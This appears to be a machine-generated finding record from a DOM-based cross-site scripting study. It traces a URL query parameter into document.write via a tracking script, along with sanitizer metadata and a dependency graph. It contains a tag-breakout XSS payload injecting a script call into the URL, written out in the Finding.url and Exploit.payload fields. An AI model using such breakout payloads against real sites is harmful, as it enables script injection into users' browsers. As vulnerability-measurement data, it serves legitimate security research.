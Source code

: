 // Finding: d9eedf8f-a5da-446b-9f1c-cfa070940439
// Finding.url: https://onlinedegrees.example206.com/programs/accelerated-bsn-online-v1?schoolsrc=44161&mrasn=712754.885073.BIgcJ3tc"></iframe></style></script></object></embed></textarea><script>taintfoxLog('3c71f056200b4f7ea2b16117d83167ae')</script><!--/*
// Finding.parentloc: https://onlinedegrees.example206.com/programs/accelerated-bsn-online-v1?schoolsrc=44161&mrasn=712754.885073.BIgcJ3tc"></iframe></style></script></object></embed></textarea><script>taintfoxLog('3c71f056200b4f7ea2b16117d83167ae')</script><!--/*
// Finding.domain: onlinedegrees.example206.com
// Finding.base_domain: example206.com
// Finding.source: location.search
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: encQString
// Sanitizer.location: https://tracking.example207.com/ - <anonymous>:7:110
// Finding.begin: 208
// Finding.end: 257
// Finding.original_uuid: d2b559dc-24ae-42a6-ad73-b325d11faed6
// Finding.TwentyFiveMillionFlowsId: 615525690
// Finding.script: https://tracking.example207.com/
// Finding.line: 7
// Exploit.uuid: 3c71f056-200b-4f7e-a2b1-6117d83167ae
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: script
// Exploit.break_out: schoolsrc=44161&mrasn=712754.885073.BIgcJ3tc"></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: schoolsrc=44161&mrasn=712754.885073.BIgcJ3tc"></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 70
// Exploit.end_taint_url: 114
// Exploit.replace_begin_url: 70
// Exploit.replace_end_url: 114
// Exploit.replace_begin_param: 86
// Exploit.replace_end_param: 130
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1350129772
// DepGraph.sanitizer_hash: -1350129772

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="Lit: '"];
n3 [shape=box, label="Lit: ''"];
n4 [shape=box, label="Var: x"];
n5 [shape=box, label="Var: x"];
n6 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n5 -> n1;
n6 -> n5;
}